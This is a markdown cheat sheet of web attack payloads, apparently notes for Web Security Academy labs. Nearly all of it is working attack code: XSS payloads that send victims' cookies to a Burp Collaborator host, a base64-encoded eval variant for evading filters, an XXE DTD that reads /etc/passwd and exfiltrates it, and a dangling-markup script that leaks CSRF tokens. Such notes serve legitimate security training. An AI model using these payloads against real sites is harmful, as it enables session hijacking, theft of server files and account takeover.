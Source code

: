 Simple Reflected XSS in iFrame:

`<iframe src="https://<VICTIM_SITE>.web-security-academy.net/?find=%22-alert(1)}//">`

---

Steal cookie:
- can be used in xss, web cache poisoning 

```JavaScript
<script>
fetch('https://<YOUR_BURP_COLLAB>.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Oneliner:
`<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{method: 'POST',mode: 'no-cors',body:document.cookie});</script>`

Or

```js
var i = new Image();i.src="//<YOUR_COLLAB_ID>.burpcollaborator.net?q="+document.cookie;document.body.appendChild(i);
```

Above in iframe:
```html
<iframe src="https://<LAB_ID>.web-security-academy.net/?find=%22-var i = new Image();i.src="//<YOUR_COLLAB_ID>.burpcollaborator.net?q="+document.cookie;document.body.appendChild(i);">
```

B64 encode the js and include in iframe for character restriction bypass:

```html
<iframe src="https://<LAB_ID>.web-security-academy.net/?find=test%22-eval(atob('dmFyIGkgPSBuZXcgSW1hZ2UoKTtpLnNyYz0iLy9iZ3ZueTd4N3JiZ3p0c3RmaGV1czlrZDB4cjNtcmIuYnVycGNvbGxhYm9yYXRvci5uZXQ/cT0iK2RvY3VtZW50LmNvb2tpZTtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGkpOw=='))//">
```

---

XXE dtd file:

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://<YOUR_BURP_COLLAB>.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

Access in app by finding an xxe vuln and using:
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://<YOUR_EXPLOIT_SERVER>.web-security-academy.net/test.dtd"> %xxe;]>
```

---

Script used in "*Reflected XSS protected by CSP, with dangling markup attack*" to get the victim's CSRF token

```js
<script>
location='https://<VICTIM_SITE>.web-security-academy.net/email?email=%22%3E%3Ctable%20background=%27//<YOUR_BURP_COLLAB>.burpcollaborator.net?';
</script> 
```

Take that csrf token and put it into a csrf generated request for changing email. Put that code into the exploit server and send to victim. 

---